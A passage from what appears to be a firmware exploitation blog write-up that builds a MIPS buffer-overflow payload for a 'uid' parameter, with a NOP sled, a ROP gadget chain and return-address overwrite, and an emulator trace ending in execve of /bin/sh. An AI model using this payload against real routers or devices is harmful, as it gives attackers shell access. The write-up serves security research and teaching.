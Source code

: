 
In the same blogpost a clever NOP sled is highlighted, I used it too:

```Python
# MIPS nopsled from https://www.pnfsoftware.com/blog/firmware-exploitation-with-jeb-part-2/
buffer += b"\x26\x40\x08\x01" * 30 + shellcode
# ###########
```

Having all the pieces, the only thing that I had to do was to build the final payload with the following structure:

```Python
...
buffer = b"uid=%s" % (b"B" * 1003)
buffer += b"AAAA"
#buffer += b"0000"                                      
buffer += pack("<I", calc_address(0x0001bb44))  #Gadget #3
buffer += b"1111"                               #$s1
buffer += b"2222"                               #$s2
buffer += b"1111"                               #$s3
buffer += b"4444"                               #$s4
#buffer += b"5555"                              
buffer += pack("<I", calc_address(0x0004dcb4))  #Gadget #2
buffer += b"6666"                               #$s6
buffer += b"7777"                               #$s7
#buffer += b"8888"
buffer += pack("<I", 0x77552bd0)                # Sleep address
buffer += pack("<I", 0x77527c94)                # Overwrites $ra with #Gadget #1
buffer += b"\x26\x40\x08\x01" * 30 + shellcode
```

Taking a look at the output:

```
...
** At [sess_get_uid] **
** Ret from sobj_add_string **
socket(1, 1, 0) = 3
fcntl(3, 2) = 0
connect(../squashfs-root/var/run/xmldb_sock) = -1
close(3) = 0
open(/var/tmp/temp.xml, 0x241, 0o666) = 3
ioctl(0x3, 0x540d, 0x7ff3c358) = -1
rt_sigprocmask(0x1, 0x7ff3c778, 0x7ff3c7f8, 0x10) = 0
nanosleep(0x7ff3c770, 0x7ff3c770) = 0
execve(//bin/sh, [], [])
ioctl(0x0, 0x540d, 0x7ff3c8c8) = -1
ioctl(0x1, 0x540d, 0x7ff3c8c8) = -1
...
```

We can see: 
+ the strings printed from our previous blog 
+ the call to `nanosleep` made by the `sleep()` function 
+ (and finally) the call to `execve`.     
